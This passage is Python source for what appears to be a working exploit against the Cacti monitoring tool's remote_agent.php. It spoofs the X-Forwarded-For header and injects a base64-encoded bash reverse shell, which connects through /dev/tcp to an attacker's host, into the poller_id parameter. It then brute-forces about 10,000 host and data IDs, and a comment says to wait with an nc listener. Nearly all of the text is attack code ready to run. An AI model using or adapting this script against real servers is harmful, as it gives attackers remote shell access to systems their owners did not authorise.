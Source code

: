 ```
    
        headers = {
            'X-Forwarded-For': f'{local_cacti_ip}'
        }
        
        revshell = f"bash -c 'exec bash -i &>/dev/tcp/{self.rs_host}/{self.rs_port} <&1'"
        import base64
        b64_revshell = base64.b64encode(revshell.encode()).decode()
        payload = f";echo {b64_revshell} | base64 -d | bash -"
        payload = urllib.parse.quote(payload)
        urls = []
        
        # Adjust the range to fit your needs ( wider the range, longer the script will take to run the more success you will have achieving a reverse shell)
        for host_id in range(1,100):
            for local_data_ids in range(1,100):
                urls.append(f"{self.url}/remote_agent.php?action=polldata&local_data_ids[]={local_data_ids}&host_id={host_id}&poller_id=1{payload}")
                
        for url in urls:
            r = self.session.get(url,headers=headers)
            print(f"{r.status_code} - {r.text}" )
        pass

    def random_user_agent(self):
        ua_list = [
            "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36",
            "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0",
        ]
        return random.choice(ua_list)

def parse_args():
    import argparse
    
    argparser = argparse.ArgumentParser()
    argparser.add_argument("-u", "--url", help="Target URL (e.g. http://192.168.1.100/cacti)")
    argparser.add_argument("-p", "--remote_port", help="reverse shell port to connect to", required=True)
    argparser.add_argument("-i", "--remote_ip", help="reverse shell IP to connect to", required=True)
    return argparser.parse_args()

def main() -> None:
    # Open a nc listener (rs_host+rs_port) and run the script against a CACTI server with its LOCAL IP URL 
    args = parse_args()
    e = Exploit(args.url, rs_host=args.remote_ip, rs_port=args.remote_port)
    e.exploit()

if __name__ == "__main__":
    main()
            
```
